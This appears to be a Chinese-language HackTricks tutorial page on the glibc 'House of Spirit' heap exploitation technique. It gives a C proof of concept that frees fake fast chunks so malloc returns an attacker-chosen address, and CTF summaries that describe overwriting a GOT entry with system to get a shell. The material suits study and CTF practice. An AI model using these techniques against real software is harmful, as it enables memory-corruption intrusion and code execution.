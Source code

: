 # House of Spirit

{% hint style="success" %}
学习并练习AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习并练习GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享黑客技巧。**

</details>
{% endhint %}

## 基本信息

### 代码

<details>

<summary>House of Spirit</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### 目标

* 能够将一个地址添加到 tcache / fast bin 中，以便稍后可以分配它

### 要求

* 此攻击需要攻击者能够创建几个伪造的 fast chunks，并正确指示其大小值，然后能够释放第一个伪造的 chunk 以便将其放入 bin 中。

### 攻击

* 创建绕过安全检查的伪造 chunk：基本上需要 2 个伪造的 chunk，在正确的位置指示正确的大小
* 以某种方式释放第一个伪造的 chunk，使其进入 fast 或 tcache bin，然后将其分配以覆盖该地址

**来自** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **的代码非常适合理解这种攻击。** 尽管代码中的此图表总结得非常好：
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
{% hint style="info" %}
注意，需要创建第二个块以绕过某些检查。
{% endhint %}

## 示例

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
* **Libc信息泄漏**：通过溢出，可以更改指针指向GOT地址，以便通过CTF的读取操作泄漏libc地址
* **House of Spirit**：滥用计数器，计算“步枪”的数量，可以生成第一个假块的假大小，然后滥用“消息”，可以伪造块的第二个大小，最后滥用溢出，可以更改将要被释放的指针，使我们的第一个假块被释放。然后，我们可以分配它，并且其中将包含“消息”存储的地址。然后，可以使其指向GOT表中的`scanf`入口，这样我们可以用system的地址覆盖它。\
下次调用`scanf`时，我们可以发送输入`"/bin/sh"`并获得一个shell。

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
* **Glibc泄漏**：未初始化的堆栈缓冲区。
* **House of Spirit**：我们可以修改堆指针的全局数组的第一个索引。通过单字节修改，在有效块内部的假块上使用`free`，以便在重新分配后获得重叠块的情况。有了这个，一个简单的Tcache污染攻击就可以获得任意写入原语。

## 参考资料

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享黑客技巧。**

</details>
{% endhint %}
